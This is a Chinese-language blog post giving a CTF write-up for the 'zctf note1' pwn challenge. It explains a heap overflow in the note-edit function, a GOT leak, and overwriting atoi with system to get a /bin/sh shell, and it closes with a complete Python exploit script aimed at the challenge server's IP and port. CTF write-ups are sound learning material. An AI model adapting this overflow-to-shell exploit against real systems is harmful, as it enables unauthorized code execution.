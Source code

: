 ```yaml
---
layout: post
title: "zctf note1"
category: 
  - writeup
tags: 
  - CTF
  - Security
  - pwn
---
```

{% include JB/setup %}

zctf 稍微看了下做了这题，记录一下。

这题比较简单，没有涉及很多 heap 相关的东西，唯一要做的就是覆盖 chunk 然后用程序本身的功能修改数据，适合初学者练习 pwn 。

<h3>info leak</h3>

典型的 note 类型的题目， 添加三个 note ，edit note 的时候可以修改的长度大于添加时的长度，因此存在溢出，可以覆盖到下一个 chunk ，edit 第一个 note ，然后覆盖第二个 note ，顺便把第二个 note 的东西覆盖成我们要改写的 atoi ，这样方便改写。所以覆盖后最简单的就是实现 info leak 。为后面改写 got 表做准备，但是存在一个小问题就是你 leak 后，因为他还需要往前显示上一个 note 的数据，所以如果 pre chunk 的值是一个不可访问的地址的话，程序就会 crash 掉。所以在覆盖的时候需要把 pre chunk 的值覆盖成 0 就行了。

<h3>改写 got 表</h3>

本来是想说改写任意地址的，但是会发现其实不能写任意地址，具体原因可以自己写看看。由于之前改写其他的 chunk ，所以导致每个 note 的标题都为空，因为第二个 note 的 pre chunk 被我们覆盖成 0 ，所以现在能显示的其实只有两个 note 。由于是倒叙遍历的，所以删除掉一个标题为空的 note 就是删除掉第三个 note 。这时候只剩第二个 note 了，然后第二个 note 一开始就被我们改成了 atoi 的地址了，所以直接把 atoi 改写成 system 。然后回到菜单输入 /bin/sh 就能执行 system('/bin/sh')

<h3>代码</h3>

```
from zio import *

def new_note(title, type_str, content):
    io.read_until('option---')
    io.writeline('1')
    io.read_until('title:')
    io.writeline(title)
    io.read_until('type:')
    io.writeline(type_str)
    io.read_until('content:')
    io.writeline(content)

def edit_note(title, content):
    io.read_until('option---')
    io.writeline('3')
    io.read_until('title:')
    io.writeline(title)
    io.read_until('content:')
    io.writeline(content)

def show_note():
    io.read_until('option---')
    io.writeline('2')

def del_note(title):
    io.read_until('option---')
    io.writeline('4')
    io.read_until('title:')
    io.writeline(title)

def main():
    new_note('a','a','a')
    new_note('b','b','b')
    new_note('c','c','c')
    show_note()
    junk = 'a'*256 + "\x00"*8 + l64(0x181)
    content = junk + l64(0) + l64(0x601fe8)
    edit_note('b', content)
    # io.gdb_hint()
    show_note()
    io.read_until('content')
    io.read_until('content')
    tmp = io.read_until('1.New')[1:-1*len('1.New')-1][::-1]
    system_addr = int('0x'+tmp.encode('hex'), 16) - 0x3c110
    log(hex(system_addr), color='red')
    setvbuf_addr = l64(system_addr + 0x2a030)
    del_note('')
    edit_note('', l64(0x3c110+system_addr) + setvbuf_addr+l64(system_addr))
    io.read_until('option')
    io.writeline('/bin/sh')
    io.interact()

if __name__ == '__main__':
    # io = zio('./note1')
    io = zio(('115.28.206.86',9001))
    main()
```